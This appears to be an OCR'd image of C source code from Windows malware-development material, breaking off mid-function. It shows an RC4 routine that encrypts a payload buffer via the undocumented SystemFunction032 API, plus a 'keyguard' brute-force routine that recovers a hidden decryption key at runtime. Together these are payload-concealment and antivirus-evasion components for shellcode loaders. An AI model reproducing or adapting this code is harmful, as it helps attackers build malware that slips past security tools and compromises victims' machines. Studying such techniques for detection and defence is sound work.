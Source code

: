 ```
	);


BOOL Rc4EncryptionViSystemFunc032(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {

	// The return of SystemFunction032
	NTSTATUS	STATUS = NULL;

	// Making 2 USTRING variables, 1 passed as key and one passed as the block of data to encrypt/decrypt
	USTRING		Key  = { .Buffer = pRc4Key, 		.Length = dwRc4KeySize,		.MaximumLength = dwRc4KeySize },
		        Data = { .Buffer = pPayloadData, 	.Length = sPayloadSize,		.MaximumLength = sPayloadSize };


	// Since SystemFunction032 is exported from Advapi32.dll, we use LoadLibraryA to load Advapi32.dll into the prcess,
	// And using its return as the hModule parameter in GetProcAddress
	fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");

	// If SystemFunction032 calls failed it will return non zero value
	if ((STATUS = SystemFunction032(&Data, &Key)) != 0x0) {
		printf("[!] SystemFunction032 FAILED With Error: 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}


// The following code is from keyguard tool


#define HINT_BYTE 0x88// The encrypted key - generated by keguard
unsigned char ProtectedKey[] = {
        0xD1, 0xF6, 0x7C, 0x89, 0x71, 0x8C, 0xF2, 0x89, 0xB6, 0xFC, 0x1F, 0x07, 0xFE, 0x82, 0x56, 0x66,
        0x95, 0xD2, 0x45, 0x1B, 0x9E, 0x4A, 0xFD, 0x88, 0x7E, 0x14, 0x3A, 0x9F, 0x77, 0x50, 0x19, 0xD9 };

BYTE BruteForceDecryption(IN BYTE HintByte, IN PBYTE pProtectedKey, IN SIZE_T sKey, OUT PBYTE* ppRealKey) {

    BYTE            b = 0;
    INT             i = 0;
    PBYTE           pRealKey = (PBYTE)malloc(sKey);

    if (!pRealKey)
        return NULL;

    while (1) {

        if (((pProtectedKey[0] ^ b) - i) == HintByte)
            break;
        else
            b++;
    }

    for (int i = 0; i < sKey; i++) {
        pRealKey[i] = (BYTE)((pProtectedKey[i] ^ b) - i);
```